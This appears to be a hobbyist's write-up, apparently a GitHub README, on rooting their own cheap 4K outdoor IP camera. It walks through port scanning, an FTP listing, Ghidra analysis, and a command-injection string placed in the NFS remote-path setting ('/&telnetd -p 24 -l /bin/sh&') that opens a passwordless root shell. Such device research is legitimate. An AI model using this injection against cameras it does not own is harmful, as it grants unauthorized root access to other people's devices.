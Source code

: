 # Cheap 4K outdoor camera penetration Test &amp; Rooting

### Summary

I got this POE 4K Outdoor camera from amazon with the intent of not needing a dedicated NVR unit (since it has SD card support). I really liked it and ended up getting 4 total for the house. This thing has a nice bright image (even in night mode) and is fully featured with motion detection, event server notification, email, snapshot, mjpeg, rtsp+onvif, cloud/app and even has some support for other protocols (it can even send email alerts and upload ftp snapshots). Honestly the only things I can complain about this device are: 1-when the conditions/image are at the tipping poing between bright and low light the sensor (hardware) seems to flicker for a few seconds while trying to perform the white balance, and 2-I have found a camera frozen every now and then and had to restart it (not often and there's an auto-reboot feature to mitigate the issue).

With that I am going to keep the brand name anonumous as there's no reason to hack/root this device other than for fun (or educational purposes), but you can drop me a line if you'd like to know the brand name (it is not any known/major brand).

Here's what the camera looks like:

![camera](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/camera.png)

#### Penetration test and rooting

The first thing I did was to check what ports are open in the device. From the settings web page of the device I already expected to see some open ports which can be toggled on/off in the settings. Here's what I got:

```
$ nmap 10.10.10.128
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 16:00 EST
Nmap scan report for Fence (10.10.10.128)
Host is up (0.0041s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
23/tcp    open  telnet
80/tcp    open  http
554/tcp   open  rtsp
711/tcp   open  cisco-tdp
1935/tcp  open  rtmp
6000/tcp  open  X11
8000/tcp  open  http-alt
49152/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

I was hoping to see telnet enabled so I could try the many published user:password combinations and gain access to the device, and while it was opened all my attempts to find a valid user:password combination were a failure.

So the next thing I noticed is that port 21 (ftp) was opened, but why would anyone need to ftp **into** the device ? I guess they made that so you could download video files from the SD card without having to physically get the SD card out (another feature?) -- In fact I was able to see that the SD card is mounted under /mnt/mmc when a card is inserted. 

I then tried accessing /etc and other system directories even using tricks like "../" without success.

The ftp only allows access to what's under /mnt and what caught my attention was that there was a /mnt/app directory which showed me the following:

```
$ ftp 10.10.10.128
Connected to 10.10.10.128.
220 Service ready for new user.
Name (10.10.10.128:wagner): admin
331 User name okay, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
ftp> cd /mnt/app
250 Requested file action okay, completed.
ftp> ls -la
200 Command okay.
150 File status okay; about to open data connection.
drwxr--r--  11 root root        0 Dec 31 19:00 .
drwxr--r--   7 root root       86 Apr 06 22:50 ..
-rwxr--r--   1 root root  1034800 Jul 14 03:43 mt7601Usta.ko
-rwxr--r--   1 root root  3285864 Jul 14 03:43 bvipcam
drwxr--r--   2 root root        0 Jul 14 03:43 pppoe
-rwxr--r--   1 root root    20696 Jul 14 03:43 detectsns
-rwxr--r--   1 root root    11080 Jul 14 03:43 reset
-rwxr--r--   1 root root    26880 Jul 14 03:43 softap.pcm
drwxr--r--   2 root root        0 Jul 14 03:43 lib
-rwxr--r--   1 root root     3700 Jan 06 17:06 start_ipcam.sh
-rwxr--r--   1 root root    24064 Jul 14 03:43 alarm.pcm
drwxr--r--   3 root root        0 Jul 14 03:43 config
-rwxr--r--   1 root root    10336 Jul 14 03:43 daemonserv
-rwxr--r--   1 root root    23540 Jul 14 03:43 cmdserv
-rwxr--r--   1 root root      662 Dec 31 19:00 system.conf
drwxr--r--   2 root root        0 Jul 14 03:43 sensor
-rwxr--r--   1 root root   181128 Jul 14 03:43 cfg80211.ko
-rwxr--r--   1 root root       43 Jul 14 03:43 version.conf
drwxr--r--   2 root root        0 Jul 14 03:43 https_env
drwxr--r--   2 root root        0 Jul 14 03:43 font
drwxr--r--   6 root root        0 Jul 14 03:43 www
-rwxr--r--   1 root root      840 Jul 14 03:43 checkusb.sh
drwxr--r--   2 root root        0 Jul 14 03:43 sysconf
226 Closing data connection.
ftp> 
```

I promptly downloaded the start_ipcam.sh script and found that this script started telnet and also started the bvipcam application which seemed to be the main application for the camera.

I then modified the start_ipcam.sh to start a passwordless telnet and tried to upload it back in place of the existing one, result: FAIL. Not only I can't overwrite the script but I can't upload anything to that directory (it seems the ftp server prevents uploading anything).

Since I can't modify anything with ftp, I figured I'd download the bvipcam application and have a look at it in ghidra to see if there's anything I can exploit.

In ghidra I found that the bvipcam manages the ftp server and web server. I also found what seemed to be a function for executing system/shell commands and went through the references to see if there was anything executing shell commands that I could inject my own command.

In the function that handles NFS mounting I found this (I named a few functions to make it clear):

![ghidra](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/ghidra.png)

In the above we can see that they prepare the **mount** command using the NFS server IP and mount point without checking for any special characters (the mount point itself is fixed under /mnt/nfs). So I went into the device's web settings to look at the settings:

![nfs](https://raw.githubusercontent.com/guino/600204002-IPC-M0402/main/img/nfs.png)

While I am using NFS I can spare a few minutes without recording to try and gain access. 

The first thing I noticed is that the length of each setting is limited to 32 characters so I can't put anything big, but should be enough to open a passwordless telnet. 

When I tried to type ```;``` the page immediately removed it (which we may be able to bypass by making the request to save settings directly), in any case ```&``` was not filtered out so I entered this NFS remote path: ```/&telnetd -p 24 -l /bin/sh&```.

When I hit save I did not see telnet open and the device seemed like it stopped working (settings web page went down), so I rebooted the device hoping I didn't brick it somehow. The device not only came back up but the settings were still saved and this time I had a passwordless telnet available on port 24:

```
$ telnet 10.10.10.128 24
Trying 10.10.10.128...
Connected to 10.10.10.128.
Escape character is '^]'.

~ # 
```

## Success! 

Root access is available and I can modify/play with it all I want which in this case really is just modify /etc/passwd so it doesn't have a default root password that someone else knows while I don't. I wrote a modified /mnt/app/passwd file (which is writeable/persistent under telnet) and edited the start_ipcam.sh script to include ```mount --bind /mnt/app/passwd /etc/passwd``` and restored my NFS settings so now I got a working/protected/rooted device which only I can access (specially since I disabled P2P/Cloud from the web settings).
